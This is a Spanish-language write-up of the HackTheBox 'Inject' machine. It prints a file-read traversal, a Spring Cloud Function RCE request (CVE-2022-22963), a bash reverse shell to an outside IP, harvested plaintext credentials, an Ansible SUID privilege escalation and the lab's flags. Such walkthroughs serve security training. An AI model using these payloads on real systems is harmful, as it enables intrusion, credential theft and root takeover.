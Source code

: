 ```yaml
---
title: Inject HTB
date: 2023-04-03
author: naibu3
---
```


#linux #spring

## Reconocimiento

Comenzamos buscando puertos abiertos con nmap:

```java
sudo nmap -sS -p- --open --min-rate 5000 -n -Pn 10.10.11.204
```
```java
Not shown: 65223 closed ports, 310 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

Aplicamos una búsqueda en profundidad de dichos puertos:

```java
sudo nmap -sVC -p22,8080 -n -Pn 10.10.11.204
```
```java
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nos llama la atención el servicio del puerto `8080`, se trata de [[nagios]], un software de monitorización. Si tratamos de conectarnos por el navegador a `http://ip:8080`, nos encontramos una página web donde nos llama la atención una página de *uploads*, en la que sólo se admiten imágenes.

Tras probar varias cosas, descubrimos que existe una vulnerabilidad a [[Local File Inclusion (LFI)]] y [[directory traversal]] en el parámetro `img` de `http://ip/show-image?img=`. Utilizando [[burpsuite]] para mandar las peticiones y *url-encodear* el valor de `img`, podemos listar por ejemplo el `/etc/passwd`:

```txt
root:x:0:0:root:/root:/bin/bash
[...]
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
```

Donde vemos tres usuarios potenciales: `root`, `phil` y `frank`.

Sin embargo, no hay muchos más archivos del sistema a los que podamos acceder, por lo que accedemos a `/var/www` para tratar de buscar archivos de configuración de la propia aplicación web. Vemos el directorio `WebApp`, donde encontramos un archivo `pom.xml`:

```xml
[...]
<dependency>
	<groupId>org.springframework.cloud</groupId>
	<artifactId>spring-cloud-function-web</artifactId>
	<version>3.2.2</version>
</dependency>
[...]
```

Podemos identificar una versión desactualizada de *spring cloud*, la `3.2.2`, y con una rápida búsqueda en internet encontramos el siguiente CVE: [CVE-2022-22963](https://github.com/me2nuk/CVE-2022-22963).

## Explotación

La vuln permite Ejecución remota de comandos, mediante el envío de ciertas peticiones POST:

```bash
sudo curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("COMANDO")' --data-raw 'data' -v
```

De esta forma, podemos tratar de enviar una simple *reverse shell* (ver [[Reverse shell]]) en bash:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.68/1234 0>&1
```
```bash
#Montamos un server http en python en nuestra maquina
sudo python3 -m http.server 11111
```
```bash
#Ejecutamos el siguiete comando para descargarla en el servidor
wget http://nuestra-ip:11111/shell.sh -P /var/www/
```
```bash
#Nos ponemos en escucha en nuestra maquina con netcat
nc -lvnp 1234
```
```bash
#Y la ejecutamos con
bash /var/www/shell.sh
```

Y deberíamos recibir una *bash* por [[netcat]], con la sesión del usuario `frank`. En este punto podríamos aplicar un [[Tratamiento de la tty]] para mejorar la shell. Sin embargo lo importante es ir al `/home/frank` y acceder al directorio `.m2` y listar el `settings.xml`:

```bash
bash-5.0$ whoami
frank
bash-5.0$ cd
bash-5.0$ ls -la
total 164
drwxr-xr-x 6 frank frank   4096 Apr  4 16:19 .
drwxr-xr-x 4 root  root    4096 Feb  1 18:38 ..
lrwxrwxrwx 1 root  root       9 Jan 24 13:57 .bash_history -> /dev/null
-rw-r--r-- 1 frank frank   3786 Apr 18  2022 .bashrc
drwx------ 2 frank frank   4096 Feb  1 18:38 .cache
drwx------ 2 frank frank   4096 Apr  4 16:19 .gnupg
-rwxr-xr-x 1 frank frank 134168 Feb 16 23:02 linpeas.sh
drwxr-xr-x 3 frank frank   4096 Feb  1 18:38 .local
drwx------ 2 frank frank   4096 Feb  1 18:38 .m2
-rw-r--r-- 1 frank frank    807 Feb 25  2020 .profile
bash-5.0$ cd .m2
bash-5.0$ ls
settings.xml
bash-5.0$ cat settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

Entre otras cosas veremos las credenciales del usuario *phil* (`phil:DocPhillovestoInject123`).

Tras intentar conectarnos por ssh, vemos que no es posible, por lo que tratamos de *loguearnos* con `su`:

```bash
su phil
Password: DocPhillovestoInject123
bash-5.0$ whoami
phil
```

Ya podemos obtener la flag de usuario, entramos a `/home/phil/` y listamos el archivo `user.txt`:

```bash
bash-5.0$ cd
cd
bash-5.0$ ls
ls
user.txt
bash-5.0$ cat user.txt
cat user.txt
0ce94b47eb49d4c232a927f7309819b0
```

Enhorabuena! Ya tenemos la flag de usuario: `0ce94b47eb49d4c232a927f7309819b0`.

## Escalada de privilegios

Una vez dentro podemos subir la herramienta [[pspy]] para monitorizar los procesos del sistema. Nos la descargamos de *github*, y la subimos al servidor (yo la subí con un servidor http en python3). Y la ejecutamos:

```bash
chmod +x pspy64 
./pspy64
```
```pspy


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
[...]
2023/04/18 08:58:05 CMD: UID=0     PID=16823  | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml
[...]
2023/03/12 03:36:01 CMD: UID=0     PID=6757   | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
[...]
```

Vemos que hay un script que ejecuta todo lo que tiene extensión `yml` y se encuentra en `/opt/automation/tasks/`. Por tanto, creamos un archivo como el siguiente:

```yaml
- hosts: localhost
  tasks:
    - name: Privilege Escalation
      ansible.builtin.shell: |
        chmod +s /bin/bash
      become: true
```

Y lo guardamos en la ruta antes mencionada. Una vez se ejecute, dará privilegios *suid* a la `bash` y podremos hacernos *root* con `bash -p`.

Ya podemos listar el contenido de `/root/root.txt` (`46160a960fef7eab6d493ff89743dc2f`). Enhorabuena! Has resuelto la máquina!

